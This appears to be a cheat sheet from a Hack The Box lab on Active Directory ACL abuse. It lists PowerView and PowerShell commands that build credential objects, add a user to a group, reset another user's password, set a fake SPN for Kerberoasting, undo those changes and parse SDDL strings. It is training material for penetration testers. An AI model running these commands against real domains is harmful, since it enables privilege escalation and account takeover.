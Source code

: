 

Creating SecureString Object
```powershell-session
$damundsenPassword = ConvertTo-SecureString 'Pwn3d_by_ACLs!' -AsPlainText -Force
```


Creating PSCredential Object
```powershell-session
PS C:\htb> $SecPassword = ConvertTo-SecureString '<PASSWORD HERE>' -AsPlainText -Force
PS C:\htb> $Cred = New-Object System.Management.Automation.PSCredential('INLANEFREIGHT\wley', $SecPassword)
```

Add user to group ($cred defined above)
```powershell-session
Add-DomainGroupMember -Identity 'Help Desk Level 1' -Members 'damundsen' -Credential $Cred -Verbose
```

Change User password with powerview
```powershell-session
PS C:\htb> Import-Module .\PowerView.ps1
PS C:\htb> Set-DomainUserPassword -Identity damundsen -AccountPassword $damundsenPassword -Credential $Cred -Verbose
```

Creating fake SPN 
```powershell-session
Set-DomainObject -Credential $Cred -Identity adunn -SET @{serviceprincipalname='notahacker/LEGIT'} -Verbose
```

Removing fake SPN
```powershell-session
Set-DomainObject -Credential $Cred -Identity adunn -Clear serviceprincipalname -Verbose
```

Removing Group membership
```powershell-session
Remove-DomainGroupMember -Identity "Help Desk Level 1" -Members 'damundsen' -Credential $Cred -Verbose
```

Converting the SDDL String into a Readable Format
```powershell-session
ConvertFrom-SddlString "SDDL-String"
```
Filter discretionaryacl with sddl string conversion 
```powershell-session
ConvertFrom-SddlString "SDDL-String" | select -ExpandProperty DiscretionaryAcl
```